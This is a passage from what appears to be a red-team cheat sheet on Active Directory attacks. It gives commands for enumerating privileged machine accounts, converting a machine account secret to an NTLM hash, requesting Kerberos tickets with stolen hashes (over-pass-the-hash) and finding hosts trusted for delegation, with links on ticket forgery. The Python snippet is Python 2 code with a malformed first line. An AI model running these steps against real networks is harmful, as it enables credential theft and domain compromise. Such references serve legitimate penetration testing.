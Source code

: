 - Check the group membership for a machine account, sometime the machine account is member of elevated group or **Domain Admins**

```
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
net group "domain admins" /domain
```

Converting machine account Hex value to NTLM hash:
```
import hashlib,binascii hexpass = "e6 5f 92..."
hexpass = hexpass.replace(" ","")
passwd = hexpass.decode("hex")
hash = hashlib.new('md4', passwd).digest()
print binascii.hexlify(hash)
```

### Over-Pass-The-hash
- https://medium.com/r3d-buck3t/play-with-hashes-over-pass-the-hash-attack-2030b900562d
- blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash

Use the user or computer NTLM hash to request Kerberos tickets.
--> Alternative to Pass The hash over NTLM protocol  
--> Useful in networks where NTLM protocol is disabled and only Kerberos is allowed.  

```
getTGT.py domain.local/workstation1$ -hashes XXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXX -dc-ip 192.168.0.10 -debug
KRB5CCNAME=/home/test/lutzenfried/tooling/workstation1\$.ccache

```
Potential error when using Over Pass The Hash attack due to the Kerberos and time.
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
--> Error raised because of your local time, you need to synchronise the host with the DC: ```ntpdate <IP of DC>```

### Pass The ticket
- https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket



### Silver ticket
- https://adsecurity.org/?p=2011
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

### Kerberos Delegation
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
- https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html

Check for system trusted for delegation
```
crackmapexec ldap 192.168.0.10 -u jdoe -p Password123 --trusted-for-delegation
OR
ldapdomaindump -u "company.local\\jdoe" -p "Password123" 192.168.0.10  
grep TRUSTED_FOR_DELEGATION domain_computers.grep
OR
PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
